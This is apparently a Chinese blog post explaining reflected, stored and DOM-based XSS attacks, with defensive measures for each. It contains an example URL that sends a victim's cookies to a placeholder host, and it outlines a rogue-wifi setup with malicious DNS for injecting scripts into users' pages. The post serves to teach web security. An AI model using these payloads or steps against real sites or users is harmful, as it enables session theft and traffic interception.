 ```yaml
---
title: xss攻击
date: 2018-08-27 19:42:30
tags: 安全
---
```


XSS（cross-site scripting跨域脚本攻击）攻击是最常见的web攻击，其重点是“跨域”和“客户端执行”。XSS攻击分为三种，分别是：
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

###### 1、Reflected XSS
基于反射的XSS攻击，主要依靠站点服务端返回脚本，再客户端触发执行从而发起Web攻击。

> 例子

> 1、做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。

> 2、在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。

> 3、当前端页面没有对返回的数据进行过滤，直接显示在页面上，这时就会alert那个字符串出来。

> 4、进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```
安全措施
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

###### 2、Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行。

> 例子

>1. 发一篇文章，里面包含了恶意脚本

```
今天天气不错啊！<script>alert('handsome boy')</script>
```
> 2. 后端没有对文章进行过滤，直接保存文章内容到数据库。

> 3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

安全措施
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标
签，将特殊字符转换成HTML编码。

###### 3、DOM-based or local XSS
基于DOM或本地的XSS攻击。一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

> 例子
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

![image](http://note.youdao.com/yws/public/resource/b9cdada69234d36736d09235b516171c/xmlnote/6D0B1492A8EA43BC83431AB18AFB4D8D/5307)

安全措施
使用HTTPS!